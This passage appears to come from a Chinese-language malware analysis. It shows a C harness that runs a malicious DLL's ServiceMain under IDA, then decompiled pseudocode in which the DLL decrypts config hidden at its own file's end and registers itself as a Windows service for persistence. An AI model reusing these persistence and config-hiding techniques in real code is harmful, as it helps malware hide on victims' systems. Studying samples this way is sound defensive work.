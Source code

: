   ```c
          FreeLibrary(hDLL);
          return 1;
      }
  
      char *args[] = {"arg1", "arg2"};
      pServiceMain(2, args);
  
      FreeLibrary(hDLL);
  
      return 0;
  }
  ```

  将这个代码编译后，放到`IDA`中下断点就可以了。

- ```c
    v8 = 0;
    FileA = CreateFileA(Filename, 0x80000000, 1u, 0, 3u, 0, 0);    //打开这个DLL，Filename为DLL路径
    hFile = FileA;
    if ( FileA != -1 )
    {
      SetFilePointer(FileA, -737, 0, 2u);    //移动文件指针为文件末尾737字节
      ReadFile(hFile, &data, 737u, &NumberOfBytesRead, 0);    // 从文件读取737字节到data。
      CloseHandle(hFile); 
  ```

- ```c
  de_code(&data, 737);    //解密
      v8 = data == 321148776;
      if ( data == 321148776 )    //是否解密成功hW$
      {
        if ( byte_100264B8 )    //sign
        {
          NumberOfBytesRead = 4;
          lstrcpyA(String1, lpString2);
          lstrcatA(String1, aPolicyagent);
          RegSet_func(4u, String1, Start_s, &NumberOfBytesRead, 4u);
          ServiceStatus.dwServiceType = 0;
          ServiceStatus.dwCurrentState = 1;
          memset(&ServiceStatus.dwControlsAccepted, 0, 20);
          OpenService_func(aPolicyagent, &ServiceStatus);
        }
        DeleteFileA(byte_100264B9);    //删除Ugtxgt0gzg文件
        lstrcpyA(String1, lpString2);    //SYSTEM\\CurrentControlSet\\Services\\
        lstrcatA(String1, ServiceName);    //FastUserSwitchingComp|atibility这后面的字符串下面代码会加上
        NumberOfBytesRead = 2;
        RegSet_func(4u, String1, Start_s, &NumberOfBytesRead, 4u);
        NumberOfBytesRead = 272;
        RegSet_func(4u, String1, ValueName, &NumberOfBytesRead, 4u);
        v1 = lstrlenA(&byte_1002634A);
        RegSet_func(1u, String1, aDisplayname, &byte_1002634A, v1 + 1);
        v2 = lstrlenA(&byte_100263A5);
        RegSet_func(1u, String1, aDescription, &byte_100263A5, v2 + 1);
        sub_10002061();
      }
  ```
